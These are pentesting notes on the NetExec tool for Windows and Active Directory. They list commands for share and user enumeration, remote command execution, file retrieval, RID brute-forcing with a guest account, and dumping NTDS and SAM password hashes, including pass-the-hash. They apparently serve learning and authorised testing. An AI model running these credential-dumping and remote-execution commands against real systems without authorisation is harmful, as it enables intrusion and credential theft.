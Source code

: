 **Netexec** can enumerate users and their privileges on Windows systems using different type of protocols.

### Basic Usage
```bash
netexec <protocol> <ip> -u 'username' -p 'password'
```

- Enumerate Shares

```bash
netexec <protocol> <ip> -u 'username' -p 'password' --shares
```

- Execute Commands Remotely

```bash
netexec <protocol> <ip> -u 'username' -p 'password' -x 'command'
```

- Access shared files

```bash
netexec <protocol> <ip> -u 'username' -p 'password' --get 'share_name/file_path'
```

- Check User and Group Information

```bash
netexec <protocol> <ip> -u 'username' -p 'password' --users
```

- AD Password Dumping

```bash
netexec smb <ip> -u 'username' -p 'password' --ntds
```

- Local Users Password Dumping

```bash
nxc smb 192.168.1.43 -u 'username$' -H 'hash' --sam
```

 - Enumerating users using `--rid-brute`
If the target's `IPC$` is readable (or you can connect with a low‑privilege account like `guest`) you can enumerate RPC/SAM information and run a RID brute to discover account names:
```bash
nxc smb 10.10.11.35 -u 'guest' -p '' --rid-brute
```

To extract the discovered usernames more cleanly, run:
```bash
netexec smb 192.168.1.43 -u 'guest' -p '' --rid-brute | grep 'SidTypeUser' | sed -n "s/.*\\\\\([^ ]*\).*/\1/p" | sort -u
```


---
## Exhaustive Netexec guide
> Notes copied from [hackingarticles](https://www.hackingarticles.in/active-directory-pentesting-using-netexec-tool-a-complete-guide/).
